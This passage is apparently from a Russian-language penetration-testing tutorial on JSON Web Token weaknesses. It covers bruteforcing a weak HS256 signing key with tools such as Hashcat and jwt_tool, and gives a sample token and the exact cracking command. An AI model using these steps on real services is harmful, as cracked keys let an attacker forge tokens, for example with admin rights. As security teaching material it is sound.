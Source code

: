 получаем

![](img/rshs_4.png)


# Bruteforce

Если используемый алгоритм подписи использует слабый ключ, то его можно получить с помощью простого перебора.
Это можно сделать с помощью различных утилит:
- [Hashcat](https://twitter.com/hashcat/status/955154646494040065)
- John the ripper
- [jwt tool](https://github.com/ticarpi/jwt_tool)


## Эксплуатация

### Шаг 1

Берем JWT подписаный с помощью алгоритма HS256:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc
```


Используем jwt_tool для брутфоса:

```bash
python2 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc /tmp/wl.txt
```
